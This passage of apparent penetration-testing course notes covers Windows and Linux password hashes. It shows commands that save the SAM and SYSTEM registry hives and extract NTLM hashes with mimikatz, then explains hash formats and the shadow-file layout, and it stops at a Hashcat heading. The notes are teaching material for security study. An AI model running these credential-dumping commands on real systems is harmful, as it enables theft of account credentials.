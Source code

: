 Get SAM and SYSTEM

```
C:\Temp> reg save hklm\sam sam.hiv && reg save hklm\system system.hiv
C:\Temp> c:\tools\mimikatz\x64\mimikatz.exe "lsadump::sam /sam:sam.hiv
/system:system.hiv" "exit"
...
RID : 000003e8 (1000)
User : Sec504
Hash NTLM: 864d8a2947723c4264598997c1d67a83
```

#### Analyze Windows hash output from tools

```
<USERNAME>:<USERID>:<LANMAN>:<NTHASH>
```

```
bob:1001:2c42686862534aa4a86fb73c70515bd7:17a7afd733dda50143b242a2aad8f0f7::
tom:1002:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::
```

- Empty LANMAN: `aad3b435b51404eeaad3b435b51404ee`
- Empty NTHASH: `31d6cfe0d16ae931b73c59d7e0c089c0`


> Am All Day Baffled (`aad3b`) By Difficult Choices For Encrypted Data (`31d6cfe0d`)


## Hashing in linux

- `/etc/passwd`: user names
- `/etc/shadow`: password hashes

```
<USERNAME>:$<HASHTYPE>$<SALT>$<ENCODED_HASH>
sec580:$1$5XEtFMh0$5t7Dwuf4pBFEbvtGCkQn90:17315:0:99999:7:::
```

| Indicator | Hash type |
| --- | --- |
| missing | DES |
| $1 | MD5 |
| $5 | SHA256 |
| $6 | SHA512 |
| $y | Yescrypt |


## Hashcat

### Mode and example
